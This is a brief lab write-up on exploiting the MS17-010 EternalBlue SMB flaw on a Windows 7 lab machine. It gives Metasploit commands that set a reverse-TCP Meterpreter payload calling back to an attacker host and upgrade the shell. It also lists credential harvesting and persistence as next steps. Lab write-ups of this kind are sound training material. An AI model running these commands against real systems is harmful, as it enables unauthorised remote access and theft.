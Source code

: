 
# EternalBlue MS17-010 Lab Writeup

### Lab Summary
This lab demonstrates exploitation of the MS17-010 SMB vulnerability (EternalBlue) on a Windows 7 system, gaining a remote shell and upgrading it to a Meterpreter session.

---

### Environment
- Target IP: <target-ip>
- Target OS: Windows 7 SP1 (version 6.1.7601)  
- Attacker machine running Metasploit Framework (msf6)

---

### Steps Taken

1. **Start Metasploit**  

   Open terminal and run:

   ```bash
   msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <attacker-ip>
run
sessions
use post/multi/manage/shell_to_meterpreter
set SESSION <session-id>
run

![Metasploit EternalBlue session](msf-eternalblue.png)


 ### Lessons Learned

- Importance of patching SMB vulnerabilities  
- Using post-exploitation modules to improve session capabilities  
- Basics of Windows privilege escalation paths (next steps after shell)

---

### Next Steps

- Explore privilege escalation  
- Harvest credentials  
- Persistence techniques
